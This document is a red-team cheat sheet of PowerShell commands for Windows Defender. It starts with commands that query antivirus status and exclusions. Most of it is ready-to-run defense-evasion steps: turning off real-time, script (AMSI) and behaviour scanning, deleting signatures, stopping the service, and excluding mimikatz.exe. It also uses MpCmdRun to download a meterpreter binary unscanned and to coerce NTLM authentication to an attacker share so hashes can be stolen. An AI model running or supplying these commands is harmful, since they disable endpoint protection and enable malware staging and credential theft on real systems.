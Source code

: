 # pwsh
% windows, security, antivirus, defender

#plateform/windows #target/local #cat/RECON/SECURITY/DEFENDER #tag/powershell 


## defender - knowledge
```powershell
https://github.com/jeremybeaume/tools/blob/master/disable-defender.ps1
https://wirediver.com/disable-windows-defender-in-powershell/
```


## defender - get antivirus
```powershell
wmic.exe /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
$AVList = @(Get-CimInstance -Namespace 'root/SecurityCenter2' -ClassName 'AntivirusProduct')
```

## defender - get powershell commands
```powershell
Get-Command -Module Defender
```

## defender - get service Status
```powershell
(Get-Service windefend).Status
```

## defender - get status
```powershell
Get-MpComputerStatus
```

## defender - get defensive modules status
```powershell
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled, Antispyware | FL
```

## defender - get tamper protection status
```powershell
Get-MpComputerStatus | Select IsTamperProtected, RealTimeProtectionEnabled | FL
```

## defender - get exclusions path
```powershell
Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension
```

## defender - get exclusions extension
```powershell
Get-MpPreference | Select-Object  -Property ExclusionExtension
```


#cat/DEFENSE-EVASION/SECURITY/DEFENDER

## Defender - stop service
```powershell
sc.exe config WinDefend start= disabled; (Get-Service windefend).stop
```

## Defender - Remove signatures (if Internet connection is present, they will be downloaded again)
%ProgramFiles%\Windows Defender\MpCmdRun.exe
```powershell
.\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - disable All
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true;  Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments
```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring
```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI
```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions
```powershell
$p = "<path|c:\windows\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add process to exclusions (1)
```powershell
$p = "<path|c:\windows\temp\mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add process to exclusions (2)
```powershell
$p = "<binary|mimikatz.exe>" ; Add-MpPreference -ExclusionProcess $p -AttackSurfaceReductionOnlyExclusions $p
```

## Defender - Add extension to exclusions
```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```

## Defender - Download without triggering scan
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```


## Defender - steal net-tnlm
```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```

## Defender - remove signatures
```powershell
C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe -RemoveDefinitions -All
```

## Defender - scan folder (or file)
```powerhell
Start-MpScan -ScanType Custom -ScanPath <path> -DisableRemediation
```